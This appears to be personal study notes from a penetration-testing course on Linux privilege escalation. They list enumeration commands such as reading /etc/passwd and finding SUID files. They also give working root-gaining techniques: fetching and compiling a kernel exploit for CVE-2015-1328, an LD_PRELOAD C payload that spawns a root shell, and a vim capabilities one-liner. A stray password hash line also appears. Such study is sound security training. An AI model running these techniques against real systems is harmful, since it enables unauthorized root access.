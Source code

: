 # What Is Privilege Escalation 
  ###.going from a lower permission account to a higher permission one
  ###.exploitation of a vulnerability, design flaw or configuration oversight in an OS or APP to gain unathorized access to resources that are usually restricted from the users

##Privilege Escalation allows:
###1. Resetting passwords
###2. Bypass access controls to compromise protected data
###3. Editing software configurations
###4. Enabling persistence
###5. Changing the privilege of existing users
###6. Execute any admin command

##Enumeration - first step taken after gaining access, important step post-compromise phase

               #Linux Commands

###'hostname' - command returns hostname of the target machine
###'uname -a' - print system information detail about kernel, useful for potential kernel vulns
###'/proc/version' - info about the target system processes
###'/etc/issue' - file contains info about the OS, can be eaily customized or changed
###'ps' - see running processes on linux system
####-1. PID: Process ID
####-2. TTY: Terminal type used by user
####-3. Time: Amount of CPU time used by process
####-4. CMD: command or executable running
###'ps -a': view all running processes
###'ps axjf': view process tree
###'ps aux': will show processes for all users
###-a: all users
###-u: display the user that launced the process
###-x: show processes that are not attached to a terminal

###'env': show environmental variables
###'sudo -l: list all commands the user can run using 'sudo'
###'ls': list files in current directory
###'ls -la': list all files including hidden files in current directory
###'id <user>': provide a general overview of the user's privilege level
###'cat /etc/passwd': discover users on the system
###'cat /etc/passwd | cut -d ":" -f 1": easily list all users and ignore other parts
###'history': look at earlier commands 
###'ifconfig': information about the network interfaces (eth0, tun0, and tun1)
###'ip route': see network route

###'netstat': gather information on existing connections
###'netstat -a': shows all listening ports and established connections
###'netstat -at': list TCP protocols
###'netstat -au': list UDP protocols
###'netstat -l': list ports in 'listening' mode. Ports are open and ready to accept incoming connection
###'netstat -lt': list ports in 'listening' mode using TCP protocol
###'netstat -s': list network usage statistics by protocol (-t: TCP, -u: UDP)
###'netstat -tp': list connections with service name and PID (-l: listening ports)
###'netstat -i': shows interface stats
###'netstat -ano': -a = display all sockets, -n: do not resolve names, -o: display timers

###find command - searching the target system for important information and potential privilege escalation vectors 
###'find . -name <filename>.txt' find the file named <filename> in the current directory
###'find /home -name <filename>.txt': find file named <filename> in the /home directory
###'find / -type d -name config': find the directory named config under "/"
###'find / -type f -perm 0777': find files with the 777 permissions(files readable, writable and executable by all users)
###'find / -perm a=x':find executable files
###'find /home -user frank': find all files for user "frank" under "/home"
###'find / -mtime 10': find files modified in the last 10 days
###'find / -atime 10': find files accessed in the last 10 days
###'find / -cmin -60': find files changed in the last hour 
###'find / -amin -60': find files accessed in the last hour
###'find / -size 50M': find files with a 50 MB size

###folders and files that can be written to or executed from:
####1. 'find / -writable -type d 2>/dev/null'
####2. 'find / -perm -222 -type d 2>/dev/null'
####3. 'find / -perm -o w -type d 2>/dev/null'
###'find / -perm -o x -type d 2>/dev/null': find world executable folders
###find development tools and supported languages:
####'find / -name perl*'
####'find / -name python*'
####'find / -name gcc*'
###'find / -perm -u=s -type f 2>/dev/null': find files with SUID bit, which allows us to run the file with a higher privilege than the current user

###Automated Enumeration Tools - linux enumeration tools with Github Repositories
####LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
####LinEnum: https://github.com/rebootuser/LinEnum
####LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
####Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
####Linux Priv Checker: https://github.com/linted/linuxprivchecker

##Kernel Exploits
###-privEsc ideally leads to root privileges
###-achieved by exploting an existing vuln or accessing another user account that has higher privileges
###-rely on misconfigurations and lax permissions
###-methodology:
####1. Id the Kernel version
####2. search and find an exploit code (https://www.linuxkernelcves.com/cves)
####3. Run the exploit

###Linux Kernel 3.13.0-24-generic x86 64
####CVE-2015-1328: Allows local users to obtain root access by leveraging a configuration in which 'overlayfs' is permitted in an arbitrary mount namespace. 
####Exploit: https://www.exploit-db.com/exploits/37292
####1. Need to copy exploit file to the target machine
	#####a. start a python server to serve the file
	#####python3 -m http.server 8888
	#####b. on target machine copy the file in the /tmp folder
	#####wget http://1.2.3.4/8888/exploit.c
####2. compile the exploit
#####gcc exploit.c -o pwned
####3. search for flag
#####find . -name flag1.txt
####4. cat flag1.txt

###Sudo
####-check root privileges using 'sudo -l'
####-Leverage application functions: some application allow the loading of alternative configuration files
####eg: Apache2 ('-f': specify an alternate ServerConfigFile)
####-Leverage LD_PRELOAD: allows any program to use shared libraries
####-if "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run
####-LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID
###-Methodology:
####1. Check for LD_PRELOAD(with the env_keep option enabled)
####2. Write a simple C code compiled as a share object (.so extension) file
####3. Run the program with sudo rights and LD_PRELOAD option pointing to our .so file
###The C code will simply spawn a root shell and can be written as follows; shell.c

####'#include <stdio.h>'
'#include <sys/types.h>'
'#include <stdlib.h>'

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

####gcc -fPIC -shared -o shell.so shell.c -nostartfiles
####-use this shared object file when launching any program the user can run with sudo
####sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

####$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::

###SUID
####-Linux privilege controls rely on controlling users and file interacions
####-achieved using permissions
####-SUID(set-user identification)
####-SGID(set-group identification)
####-'s'bit - special permission level
'####find / -type f -perm -04000 -ls 2>/dev/null': list files with SUID or SGID bit set

###Capabilities
####'getcap' tool  to list enabled capabilities
####-capabilites help manage privileges at a more granular level
####'getcap -r /' generates a lot of erros so it is good practice to redirect error messages to /dev/null
####'getcap -r / 2>/dev/null'
###vim:
####./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

###Cron Jobs
####-used to run scripts or binaries at specific times
####-run with privilege of the owner and not current user
####-task that runs on root privileges, change script that will be run to new script with root privileges
####-stored as crontabs
####-any user can read the file keeping system-wide cron jobs under '/etc/crontab'
####backup.sh - configured to run every minute

###PATH
####-if a folder for the user has a write permission located in the path, an applicaition in the path could be hijacked to run a script and increase privileges
####echo $PATH

###NFS
####-Network file sharing: configuration is kept in '/etc/exports' file. 
####-the file is created during the NFS server installation and can usually be read by users
####-critical element: "no_root_squash" - default NFS will change the root user to nfsnobody and strip any file from operating with root privileges
####- 'no_root_squash' is present on a writable share, it is possible to create an executable with SUID bit set and run it on the target system




